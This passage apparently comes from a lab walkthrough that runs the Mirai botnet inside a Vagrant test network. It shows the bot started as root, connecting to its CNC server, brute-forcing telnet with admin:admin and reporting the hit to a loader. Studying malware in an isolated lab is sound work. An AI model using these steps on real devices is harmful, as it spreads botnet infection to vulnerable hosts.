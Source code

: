 Launch bot. Be sure running in root permission. The customized bot would connect to CNC server back then try to infect the next IP. In other words, 192.168.11.31, which is target_1 in this example.

##### Launch Bot
```
    target-0:~$ sudo -i
    target-0:~# whoami
    root
    target-0:~# cd /vagrant/mirai/
    target-0:/vagrant/mirai# ./debug/mirai.x86.dbg
    DEBUG MODE YO
    [main] We are the only process on this system!
    listening tun0
    [main] Attempting to connect to CNC
    [resolv] Got response from select
    [resolv] Found IP address: 192.168.11.11
    Resolved cnc.mirai.com to 1 IPv4 addresses
    [main] Resolved domain
    [main] Connected to CNC. Local address = 192.168.11.30
    [main] Lost connection with CNC (errno = 9) 2
    [main] Tearing down connection to CNC!
    [killer] Trying [scanner] Scanner process initialized. Scanning started.
    to kill port 23
    [killer] Finding and killing processes holding port 23
    Failed to find inode for port 23
    [killer] Failed to kill port 23
    [killer] Bound to tcp/23 (telnet)
    [main] Attempting to connect to CNC
    [resolv] Got response from select
    [resolv] Found IP address: 192.168.11.11
    Resolved cnc.mirai.com to [scanner] FD5 Attempting to brute found IP 192.168.11.31
    1 IPv4 addresses
    [main] Resolved domain
    [scanner] FD5 connected. Trying admin:admin
    [main] Connected to CNC. Local address = 192.168.11.30
    [scanner] FD5 finished telnet negotiation
    [scanner] FD5 received username prompt
    [scanner] FD5 received password prompt
    [scanner] FD5 received shell prompt
    [scanner] FD5 received sh prompt
    [scanner] FD5 received sh prompt
    [scanner] FD5 received enable prompt
    [scanner] FD5 received sh prompt
    [scanner] FD5 Found verified working telnet
    [scanner] FD5 addr: 192.168.11.31, port: 23, auth: admin:admin (5:5)
    [resolv] Got response from select
    [resolv] Found IP address: 192.168.11.11
    Resolved report.mirai.com to 1 IPv4 addresses
    [report] Send scan result to loader
    [scanner] FD5 Attempting to brute found IP 192.168.11.31
```
